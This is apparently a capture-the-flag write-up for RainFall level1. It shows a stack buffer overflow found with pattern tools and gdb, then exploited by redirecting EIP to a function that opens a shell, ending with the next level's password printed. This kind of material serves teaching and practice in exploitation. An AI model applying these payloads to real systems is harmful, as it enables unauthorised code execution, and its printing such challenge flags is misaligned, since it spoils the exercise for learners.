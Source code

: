
level1@RainFall:~$ ./level1 <<< $(python -c 'print("a" * 76)')

Illegal instruction (core dumped)



 the first step in exploitation is to find out the offset. Metasploit aids this process by using two different tools, called pattern_create and pattern_offset.

 in order to build a working exploit, we need to figure out the exact amount of these characters. Metasploit's inbuilt tool called the pattern_create does this for us in no time. It generates patterns that can be supplied instead of A characters and, based on the value which overwrote the EIP register, we can easily figure out the exact number of bytes using its counterpart tool pattern_offset.
- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318


./pattern create 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

this output can be fed to the vulnerable application as follows:
```
(gdb) run <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? () 
```
We have 0x63413563 as the address that overwrote EIP register.

Let's figure out the exact number of bytes required to overwrite the EIP with the pattern_offset tool. This tool takes two arguments; the first one is the address and the second one is the length, which was 200 as generated using pattern_create:
```
./pattern offset 0x63413563 200
76
```
The exact match is found to be at 76. Therefore, any 4 bytes after 76 characters becomes the contents of the EIP register.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 318-320

lets make sure of the above finding:
```
(gdb) run <<< $(python -c 'print "-" * 76 + "AAAA" ')
Segmentation fault.
0x41414141 in ??
```

```
The cause of crash was that the application failed to process the address of the next instruction, located at 41414141. The value 41 is the hexadecimal representation of character A. What actually happened is that our input, extending through the boundary of the buffer, went on to overwrite the EIP register. Therefore, since the address of the next instruction was overwritten, the program tried to find the address of the next instruction at 41414141, which was not a valid address. Hence, it crashed.

- Metasploit Revealed _ Secrets of the Expert Pentester (2017) pp 316
```

```
(gdb) info func
All defined functions:
[..]
0x08048444  run

or :
objdump -t level1 | grep text

objdump -S level1 | grep -A 20 run
```

b.Ninja for run func:
```
fwrite {"Good... Wait what?\n"}
return system(/bin/sh)
```
0x08048444 little endian : \x44\x84\x04\x08

all what we need to do is make the EIP point to the addr of run function which runs the shell
```
python -c 'import struct; print("-" * 76 + struct.pack(">L",0x44840408))' > /tmp/payload

python -c 'print "-" * 76 + "\x44\x84\x04\x08"' > /tmp/test

level1@RainFall:~$ cat /tmp/payload -  | ./level1
Good... Wait what?
pwd
/home/user/level1
cat /home/user/level1/.pass
cat: /home/user/level1/.pass: Permission denied
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```


==
```
struct = Interpret bytes as packed binary data
struct.pack takes non-byte values (e.g. integers, strings, etc.) and converts them to bytes.
Format Strings
< little-endian
> big-endian
```

Payload: This is a piece of code that runs at the target after a successful exploitation is done. It defines the actions we want to perform on the target system.

Payloads
To understand what a payload does, let's consider a real-world example. A military unit of a certain country develops a new missile that can travel a range of 500 km at very high speed. Now, the missile body itself is of no use unless it's filled with the right kind of ammunition. Now, the military unit decided to load high explosive material within the missile so that when the missile hits the target, the explosive material within the missile explodes and causes the required damage to the enemy. So, in this case, the high explosive material within the missile is the payload. The payload can be changed based on the severity of damage that is to be caused after the missile is fired.
Similarly, payloads in the Metasploit Framework let us decide what action is to be performed on the target system once the exploit is successful. 

- Metasploit Revealed _ Secrets of the Expert Pentester -  Build your Defense against Complex Attacks-Packt Publishing (2017)

==
to detect the offset u could also use the cyclic script from the pawn tools 

https://github.com/arthaud/python3-pwntools/blob/master/pwnlib/commandline/cyclic.py
```
cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

run <<< "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
Seg
eip value 0x61616174 

hex 0x61616174 to text is: "aaat" but since LSB it's "taaa"

using cyclic again:

cyclic -l taaa
76

r <<< $(python -c 'print ("A" * 76 + "B")')
```
===
```
(gdb) disas main

 0x08048490 <+16>:    call   0x8048340 <gets@plt>
 
 0x08048495 <+21>:    leave
 
 break just after gets: 0x08048495
 
  run <<< "AAAAAAAAAAAAAAAAAAAA"
  
  eip at 0xbffff72c
  
  (gdb) x/30wx $esp
  
0xbffff6d0:     0xbffff6e0      0x0000002f      0xbffff72c      0xb7fd0ff4

0xbffff6e0:     0x41414141
 
(gdb) x/c 0xbffff6e0

0xbffff6e0:     65 'A'

(gdb) p/d 0xbffff72c - 0xbffff6e0

$2 = 76
```


